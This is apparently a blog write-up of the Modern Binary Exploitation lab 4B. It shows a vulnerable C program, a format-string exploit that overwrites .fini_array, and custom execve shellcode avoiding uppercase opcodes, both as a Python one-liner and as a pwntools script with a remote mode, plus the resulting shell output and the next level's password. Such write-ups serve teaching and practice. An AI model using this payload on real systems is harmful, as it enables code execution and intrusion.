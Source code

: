 ```yaml
---
layout: post
title: Modern Binary Exploitation - Lab 4B
published: True
---
```


For this lab, we are given a program and its corresponding source code:

{% highlight C %}
/*
 *   Format String Lab - B Problem
 *   gcc -z execstack -z norelro -fno-stack-protector -o lab4B lab4B.c
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[])
{
    int i = 0;
    char buf[100];

    /* read user input securely */
    fgets(buf, 100, stdin);

    /* convert string to lowercase */
    for (i = 0; i < strlen(buf); i++)
        if (buf[i] >= 'A' && buf[i] <= 'Z')
            buf[i] = buf[i] ^ 0x20;

    /* print out our nice and new lowercase string */
    printf(buf);

    exit(EXIT_SUCCESS);
    return EXIT_FAILURE;
}
{% endhighlight %}

The program takes user input, converts any upper case letters to lower case letters and prints out the modified string.

Running `chekcsec` on the binary reveals that all compiler mitigations are disabled.
{% highlight bash %}
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
{% endhighlight %}

A format string vulnerability is introduced when unvalidated user input is passed into `printf()`. This vulnerability gives us a write-what-where primitive that we can leverage to gain arbitrary code execution.

We can exploit this vulnerability by overwriting a destructor pointer in **.fini_array** with the address where our shellcode resides. 
One issue we do have to deal with however, is the fact that we can't use any opcodes in our shellcode from `0x41` to `0x5a`, as they are associated with capital ASCII letters. 

![](../img/ascii.gif)

This is particularly problematic because my go-to *execve("/bin/sh")* shellcode uses `push <reg>` instructions which are associated with opcodes in this range.
To bypass this issue, I substituted the `push <reg>` instructions with `sub esp, 0x4` and `mov [esp], <reg>` instructions, which use acceptable opcodes. 
To verify this we can use an [online assembler ](https://defuse.ca/online-x86-assembler.htm#disassembly).

![](../img/online-assembler.png)

We can use `objdump` to determine the address of the `.fini_array` entry we need to overwrite.

{% highlight bash %}
lab4B@warzone:/levels/lab04$ objdump -s -j .fini_array lab4B

lab4B:     file format elf32-i386

Contents of section .fini_array:
 80498ac 40860408                             @...      
{% endhighlight %}

We see that we need to overwrite the value stored at address `0x80498ac`.

We can do that using the `%n` format string specifier to perform two controlled writes to address `0x80489ac` and `0x80498ae`. 

Using **fixenv** and **gdb**, we can also see that the address `0xbffff780` points to the middle of our NOP sled, so we will overwrite the `.fini_array` entry with this address.

{% highlight bash %}
0060| 0xbffff77c --> 0x90906e25 
0064| 0xbffff780 --> 0x90909090 
0068| 0xbffff784 --> 0x90909090 
0072| 0xbffff788 --> 0x90909090 
0076| 0xbffff78c --> 0x90909090 
{% endhighlight %}

One issue with the `0x80498ae` address, however, is that the upper 2 bytes, `0xbfff` are smaller than `0xf780`, so when we are determining the width of the `%x`, we need to determine how many bytes will allow us to write `0x1bfff` to these 2 bytes.  
After performing some calculations, we determine that `%51327x%n` will write `0x1bfff` to `0x80498ae`.

Putting everything together, the following input will give us a shell.

{% highlight bash %}
lab4B@warzone:/tmp/lab4b$ (python -c 'print "\xac\x98\x04\x08"+"AAAA"+"\xae\x98\x04\x08"+"%x"*4+"%63329x%n"+"%51327x%n"+"\x90"*20+"\x31\xc0\x83\xec\x04\x89\x04\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x83\xec\x04\x89\x04\x24\x89\xe2\x83\xec\x04\x89\x1c\x24\x89\xe1\xb0\x0b\xcd\x80"'; cat -) | fixenv /levels/lab04/lab4B

[...]

                                                                               61616161????????????????????1????$hn/shh//bi????$????$??
                                                                                                                                       ̀
id
uid=1015(lab4B) gid=1016(lab4B) euid=1016(lab4A) groups=1017(lab4A),1001(gameuser),1016(lab4B)
cat /home/lab4A/.pass
fg3ts_d0e5n7_m4k3_y0u_1nv1nc1bl3
{% endhighlight %}

The pwntools version of this is as follows.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

'''
r < <(python -c 'print "\xac\x98\x04\x08"+"AAAA"+"\xae\x98\x04\x08"+"%x"*4+"%63329x%n"+"%51327x%n"+"\x90"*20+"\x31\xc0\x83\xec\x04\x89\x04\x24\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x83\xec\x04\x89\x04\x24\x89\xe2\x83\xec\x04\x89\x1c\x24\x89\xe1\xb0\x0b\xcd\x80"')
'''

def sh():
  sc = '''xor eax, eax
          sub esp, 4
          mov [esp], eax
          push 0x68732f6e
          push 0x69622f2f
          mov ebx, esp
          sub esp, 4
          mov [esp], eax
          mov edx, esp
          sub esp, 4
          mov [esp], ebx
          mov ecx, esp
          mov al, 11
          int 0x80 
       '''
  return asm(sc, os='linux', arch='x86')

def exploit(r):
  payload = p32(0x80498ac)
  payload += "AAAA"
  payload += p32(0x80498ae)
  payload += "%x"*4
  payload += "%63329x%n"
  payload += "%51327x%n"
  payload += "\x90"*20
  payload += sh()
  r.sendline(payload) 
  r.interactive()

if __name__ == "__main__":
  log.info("For remote: %s HOST PORT" % sys.argv[0])
  if len(sys.argv) > 1:
    r = remote(sys.argv[1], int(sys.argv[2]))
    exploit(r)
  else:
    r = process(['fixenv','/levels/lab04/lab4B'])
    print util.proc.pidof(r)
    pause()
    exploit(r)


{% endhighlight %}
